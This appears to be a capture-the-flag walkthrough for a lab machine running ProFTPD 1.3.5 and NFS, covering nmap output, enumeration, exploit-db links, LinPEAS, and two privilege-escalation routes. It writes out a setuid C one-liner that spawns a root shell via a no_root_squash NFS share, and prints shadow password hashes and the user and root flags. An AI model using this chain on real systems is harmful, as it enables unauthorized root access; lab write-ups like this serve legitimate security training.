# OUTDATED



## NMAP SCAN

```text
21/tcp    open  ftp      syn-ack ttl 63 ProFTPD 1.3.5
22/tcp    open  ssh      syn-ack ttl 63 OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
111/tcp   open  rpcbind  syn-ack ttl 63 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      36538/udp6  mountd
|   100005  1,2,3      50489/udp   mountd
|   100005  1,2,3      58020/tcp   mountd
|   100005  1,2,3      59947/tcp6  mountd
|   100021  1,3,4      32941/tcp   nlockmgr
|   100021  1,3,4      47273/udp6  nlockmgr
|   100021  1,3,4      52531/udp   nlockmgr
|   100021  1,3,4      57675/tcp6  nlockmgr
|   100024  1          32984/tcp6  status
|   100024  1          42348/tcp   status
|   100024  1          46256/udp   status
|   100024  1          48833/udp6  status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  syn-ack ttl 63 2-3 (RPC #100227)
32941/tcp open  nlockmgr syn-ack ttl 63 1-4 (RPC #100021)
41348/tcp open  mountd   syn-ack ttl 63 1-3 (RPC #100005)
42348/tcp open  status   syn-ack ttl 63 1 (RPC #100024)
43453/tcp open  mountd   syn-ack ttl 63 1-3 (RPC #100005)
58020/tcp open  mountd   syn-ack ttl 63 1-3 (RPC #100005)
```

## FTP ENUMERATION



## NFS ENUMERATION







### USERS

```text
anna
daniel
robert
```

## MANUAL EXPLOIT

* [https://www.exploit-db.com/exploits/36742](https://www.exploit-db.com/exploits/36742)





## LOGIN SSH



## LINPEAS

* UPLOAD LINPEAS AND RUN IT







## PRIVESC \(2 WAYS\)

### 1. NO ROOT SQUASH

* [https://recipeforroot.com/attacking-nfs-shares/](https://recipeforroot.com/attacking-nfs-shares/)
* Create a C script ON ATTACKER MACHINE INSIDE THE MOUNTED NFS

```text
sudo echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > x.c
```



* ON VICTIM MACHINE



### 2. KERNEL 'OVERLAYFS' PRIVESC

* [https://www.exploit-db.com/exploits/37292](https://www.exploit-db.com/exploits/37292)


## CREDS

```text
root:$6$0ssVOLUT$JczO91Fh5J4K0U0yIODQ7JV/Laky.Y8VxWkvQQQx7khPQkjH/lUfnXFLdrE3yF3WIF3iVpnLYbLU8vcqg1Wka.:18443:0:99999:7:::
daniel:$6$2cmYWp87$l1HEOI4RqMqc6112qfUqoF7lVvII/6BfMJhUwLtutQC8DTSucrnSUFyUi39pLRAvkUkpqYdE7WJwQ.g29yUf..:18443:0:99999:7:::
```

## FLAGS

### USER

```text
c3f5c15577e8d04d18ead19da6e9ea7a
```

### ROOT

```text
1d57710c976ac5da6092e60f852506b8
```


